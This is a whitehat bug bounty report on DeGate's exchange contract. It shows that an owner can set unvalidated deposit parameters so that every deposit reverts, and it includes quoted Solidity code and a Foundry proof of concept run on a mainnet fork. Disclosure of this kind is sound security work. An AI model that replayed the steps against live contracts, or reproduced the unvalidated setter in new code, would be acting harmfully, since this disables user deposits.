 # Malicious owner can update the `DepositParams` state variables to arbitrary values and DOS the `ExchangeV3::deposit` function

Submitted about 1 month ago by @JCN2023 (Whitehat) for BOOSTED: DeGate Bug Bounty

Report ID: #25930

Report type: Smart Contract

Has PoC? Yes

Target: https://etherscan.io/address/0x9C07A72177c5A05410cA338823e790876E79D73B#code

# Impacts
Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details

Description

Bug Description

A lack of input validation in the Exchange::setDepositParams function can lead to a malicious owner updating the DepositParams values to arbitrary amounts, potentially resulting in an extremely large deposit fee being charged for each deposit to the exchange. This large deposit fee and updated DepositParams will result in a reversion on every deposit call.

# Details
The following code runs for each call to Exchange::deposit:

Lines 38 - 72 in ExchangeDeposits::deposit

38:    function deposit(
39:        ExchangeData.State storage S,
40:        address from,
41:        address to,
42:        address tokenAddress,
43:        uint248  amount,                 // can be zero
44:        bytes   memory extraData
45:        )
46:        internal  // inline call
47:    {
48:        require(to != address(0), "ZERO_ADDRESS");
49:        require(from == to, "INVALID_DEPOSIT_FROM"); // Only allow deposits to the user's own account
50:
51:        // Deposits are still possible when the exchange is being shutdown, or even in withdrawal mode.
52:        // This is fine because the user can easily withdraw the deposited amounts again.
53:        // We don't want to make all deposits more expensive just to stop that from happening.
54:
55:        (uint32 tokenID, bool tokenFound) = S.findTokenID(tokenAddress);
56:        if(!tokenFound) {
57:            tokenID = S.registerToken(tokenAddress, false);
58:        }
59:
60:        if (tokenID == 0 && amount == 0) {
61:            require(msg.value == 0, "INVALID_ETH_DEPOSIT");
62:        }
63:
64:        // A user may need to pay a fixed ETH deposit fee, set by the protocol.
65:        uint256 depositFeeETH = 0;
66:        if (needChargeDepositFee(S)) {
67:            depositFeeETH = S.depositState.depositFee;
68:            emit DepositFee(depositFeeETH);
69:        }
70:
71:        // Check ETH value sent
72:        require(msg.value >= depositFeeETH, "INSUFFICIENT_DEPOSIT_FEE");
The internal function needChargeDepositFee on line 66 is invoked and if it returns true the depositFee stored in the DepositState struct will be amount of ETH that the user must pay during this deposit call.

As we can see on line 72, if the user does not send enough ETH to cover this fee the transaction will revert.

Therefore, If needChargeDepositFee(S) always returns true (indicating a fee is needed) and S.depositState.depositFee was an extremely large number (type(uint256).max), then all calls to Exchange::deposit will revert on lines 72 of the code above.

A malicious owner can guarantee the condition described above by calling Exchange::setDepositParams and performing the following updates to the contract state:

S.depositState.freeDepositMax = 0
S.depositState.freeDepositRemained = 0
S.depositState.freeSlotPerBlock = 0
S.depositState.depositFee = type(uint256).max
The Exchange::setDepositParams function does not perform any sort of input validation and simply updates the DepositState with the calldata values passed in the function call:

Lines 102 - 113 in ExchangeDeposits::setDepositParams

102:    function setDepositParams(
103:       ExchangeData.State storage S,
104:        uint256 freeDepositMax,
105:        uint256 freeDepositRemained,
106:        uint256 freeSlotPerBlock,
107:        uint256 depositFee
108:    ) internal {
109:        S.depositState.freeDepositMax = freeDepositMax;
110:        S.depositState.freeDepositRemained = freeDepositRemained;
111:        S.depositState.freeSlotPerBlock = freeSlotPerBlock;
112:        S.depositState.depositFee = depositFee;
113:    }
As we can see above, a malicious owner can update the 4 specified state variables to any arbitrary amounts. If the owner sets the state variables to the amounts previously specified, this will result in the internal function needChargeDepositFee always returning true.

Below is the code for the internal function ExchangeDeposits::needChargeDepositFee:

115:    function needChargeDepositFee(ExchangeData.State storage S)
116:        private
117:        returns (bool)
118:    {
119:        bool needCharge = false;
120:
121:        // S.depositState.freeDepositRemained + (block.number - S.depositState.lastDepositBlockNum) * S.depositState.freeSlotPerBlock;
122:        uint256 freeDepositRemained = S.depositState.freeDepositRemained.add(
123: (block.number.sub(S.depositState.lastDepositBlockNum)).mul(S.depositState.freeSlotPerBlock)
124:        );
125:        
126:        if (freeDepositRemained > S.depositState.freeDepositMax) {
127:            freeDepositRemained = S.depositState.freeDepositMax;
128:        }
129:
130:        if (freeDepositRemained > 0) {
131:            freeDepositRemained -= 1;
132:        } else {
133:            needCharge = true;
134:        }
135:
136:        S.depositState.freeDepositRemained = freeDepositRemained;
137:        S.depositState.lastDepositBlockNum = block.number;
138:
139:        return needCharge;
140:    }
With the specified state changes done, the freeDepositRemained variable will always be 0. Therefore, the conditional on line 130 will enter the second branch and the code on line 133 will run, setting the needCharge variable to true (indicating a fee is needed for the deposit calls).

Thus, the condition on line 66 of ExchangeDeposits::deposit will always be true, which will result in calls to Exchange::deposit to always revert on line 72, since depositState.depositFee is equal to type(uint256).max.

# Impact
A malicious owner can call the Exchange::setDepositParams function and set the depositState.depositFee to type(uint256).max and the other 3 state variables to 0. This will effectively result in a DOS of the Exchange:deposit function, disabling users from depositing into the protocol. The malicious owner does not profit from this action, but damage is done to the protocol/users by rendering a core feature of the protocol un-usable for users. Therefore, this action by the malicious owner will result in the following impact: Griefing.

# Risk Breakdown
The exploit itself is very easy to execute since it can only be done by the owner. Only a single call to Exchange::setDepositParams is needed to DOS the Exchange::deposit function.

# Recommendation
In order to maintain a truly trust-less system, the privileged Exchange::setDepositParams function should validate the calldata inputs to ensure that the owner can not update the contract state with arbitrary values. An example of this would be validating that the depositState.depositFee can not be set to a value greater than X.

# Proof of concept
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import "forge-std/Test.sol";

interface IDeGate {
    function setDepositParams(uint256 a, uint256 b, uint256 c, uint256 d) external;

    function deposit(address from, address to, address token, uint248 amount, bytes calldata data) external payable;
}

contract DeGateMalOwnerPoC is Test {
    uint256 mainnetFork;

    string MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
    
    address exchange = 0x9C07A72177c5A05410cA338823e790876E79D73B;

    function setUp() public {
        mainnetFork = vm.createFork(MAINNET_RPC_URL);

        vm.selectFork(mainnetFork);
    }

    function testMalOwnerUpdatesDepositParams() public {
        // tx used for reference:
        // https://etherscan.io/tx/0x6d10b8ff970911c04c192f7882e3c704a3f82260f0e0caa15278ffce0b0f7cc2
        assertEq(vm.activeFork(), mainnetFork);

        vm.rollFork(18589360 - 1); // block before tx

        // users can deposit successfully
        address user = 0x57f814B20f13132F82b0a541A33f04Be04418C93; // user from tx

        address usdc = 0xA0b86991c6218b36c1d19D4a2e9Eb0cE3606eB48; // token from tx

        uint248 amount = 3000000000; // amount from tx

        vm.prank(user);

        IDeGate(exchange).deposit(user, user, usdc, (amount / 2), hex'00');

        // malicious owner updates Deposit Params so that a extremely large deposit fee is always required

        address maliciousOwner = 0x9b93e47b7F61ad1358Bd47Cd01206708E85AE5eD;

        vm.prank(maliciousOwner);

        IDeGate(exchange).setDepositParams(0, 0, 0, type(uint256).max);

        // users can no longer deposit (Exchange::deposit DOS-ed)
        vm.prank(user);
        
        vm.expectRevert("INSUFFICIENT_DEPOSIT_FEE");
        IDeGate(exchange).deposit(user, user, usdc, (amount / 2), hex'00'); // tx reverts due to extremely large deposit fee on every deposit
    }
}
